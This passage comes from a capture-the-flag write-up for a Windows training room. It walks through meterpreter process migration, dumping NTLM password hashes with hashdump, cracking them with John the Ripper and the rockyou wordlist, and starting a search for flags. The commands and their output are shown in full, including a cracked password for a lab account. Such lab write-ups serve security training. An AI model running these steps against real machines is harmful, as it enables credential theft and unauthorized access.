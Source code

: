 I'll go with the very last one with `PID` of `3004` with the name `cmd.exe`.

Next we'll migrate to this process using the following command: 

`migrate PROCESS_ID` in this case `migrate 3004`
```
meterpreter > migrate 3004
[*] Migrating from 1544 to 3004...
[*] Migration completed successfully.
```

### Cracking
Once the previous step is complete, we should have an elevated meterpreter shell. 

Onto the cracking portion of this task. We'll want to use **hashdump**. This will dump all of the passwords on the machine. 
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
We now need to copy the password hash to a file and figure out how to crack it. I'll save mine in a file called `hash.txt`. 
![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1645757218826/sM4GpD-1h.png)

Now we're going to figure out what kind of hash this is. Since this is a Windows CTF, I'm going to assume that its an NTLM hash type. 

In the hash.txt, let's remove the unnecessary parts so that we can crack this successfully in **John the Ripper**. It should look like this in the file. 
```
Administrator:31d6cfe0d16ae931b73c59d7e0c089c0
Guest:31d6cfe0d16ae931b73c59d7e0c089c0
Jon:ffb43f0de35be4d9917ac0cc8ad57f8d
```
We'll run this command to crack the password using **John the Ripper**:

`john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt `

I forgot to get the results, but below I ran another command to show the User:Password credentials.
```
root@ip-10-10-49-123:~# john --show --format=NT hash.txt 
Administrator:
Guest:
Jon:alqfna22
```
We found our first credentials!! 

### Find flags!
There are 3 flags on the machine that we'll need to find. THM mentions they're not traditional flags, instead they're meant to represent key locations in the Windows system. 

According to the THM room, "*the first flag can be found at the system root*". We can run the `pwd` to print our working directory. 
```
meterpreter > pwd
C:\Windows\system32
```
We'll need to change our directory so that it's just `C:\`
```
meterpreter > cd C:/
meterpreter > pwd
C:\
```
We can check our current directory and see what files are in it. 
```
meterpreter > dir
Listing: C:\
```